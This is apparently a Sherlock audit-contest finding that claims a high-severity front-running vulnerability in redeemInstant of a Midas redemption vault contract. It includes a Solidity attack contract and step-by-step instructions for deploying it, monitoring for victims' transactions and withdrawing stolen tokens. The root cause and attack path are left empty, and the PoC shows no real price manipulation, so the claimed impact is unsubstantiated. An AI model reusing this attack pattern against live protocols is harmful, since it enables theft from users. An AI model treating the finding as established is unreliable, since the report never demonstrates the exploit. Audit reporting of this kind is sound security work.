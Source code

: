 Sweet Hickory Pangolin

High

# Front-Running Attacks at redeemInstant for MBasisRedemptionVaultWithSwapper  contract

### Summary

Line: https://github.com/sherlock-audit/2024-08-midas-minter-redeemer/blob/main/midas-contracts/contracts/mBasis/MBasisRedemptionVaultWithSwapper.sol#L88

The redeemInstant function involves token swapping and redemptions, which could be vulnerable to front-running attacks if attackers observe pending transactions and manipulate prices or tokens accordingly.

### Root Cause

Front running attack

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Token price manipulation.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "./MBasisRedemptionVaultWithSwapper.sol";

contract FrontRunningAttack {
    MBasisRedemptionVaultWithSwapper public targetContract;
    IERC20 public token;
    address public attacker;

    constructor(address _targetContract, address _token) {
        targetContract = MBasisRedemptionVaultWithSwapper(_targetContract);
        token = IERC20(_token);
        attacker = msg.sender;
    }

    // Function to start the front-running attack
    function startFrontRunning(uint256 amountMTokenIn, uint256 minReceiveAmount) external {
        require(msg.sender == attacker, "Not the attacker");

        // Approve the target contract to spend tokens
        token.approve(address(targetContract), amountMTokenIn);

        // Execute front-running logic
        frontRun(amountMTokenIn, minReceiveAmount);
    }

    function frontRun(uint256 amountMTokenIn, uint256 minReceiveAmount) internal {
        // This function will be executed with higher gas fees to front-run the victim

        // Perform the front-running attack by calling redeemInstant
        targetContract.redeemInstant(address(token), amountMTokenIn, minReceiveAmount);

        // Optional: additional logic to exploit the changes from victim's transaction
    }

    // Function to withdraw any tokens received
    function withdraw() external {
        require(msg.sender == attacker, "Not the attacker");
        token.transfer(attacker, token.balanceOf(address(this)));
    }

    // Fallback function to receive Ether
    receive() external payable {}
}

```
startFrontRunning: This function is used to initiate the front-running attack. It sets the token approval and then calls frontRun to perform the attack. The attacker needs to monitor for the victim's transaction and submit their transaction with higher gas fees to ensure it is mined first.

frontRun: This internal function performs the actual front-running by calling the redeemInstant function on the target contract. The attacker will ideally set a higher gas price to ensure that this transaction is mined before the victim's transaction.

withdraw: This function allows the attacker to withdraw any tokens received from the front-running attack.

Step 3: Deploy and Execute the Attack
Deploy the FrontRunningAttack Contract: Deploy this contract with the address of the MBasisRedemptionVaultWithSwapper contract and the token address.

Fund the Contract: Transfer tokens to the malicious contract so it can perform the front-running attack.

Monitor for Victim’s Transactions: Use a tool or script to monitor the blockchain for pending transactions that call the redeemInstant function.

Call startFrontRunning: Execute the startFrontRunning function with the same parameters as the victim’s transaction but with a higher gas fee to front-run their transaction.

Withdraw Funds: After the attack, use the withdraw function to transfer any stolen tokens to the attacker’s address.

### Mitigation

Implement techniques like transaction batching, commit-reveal schemes, or price slippage limits to mitigate front-running risks.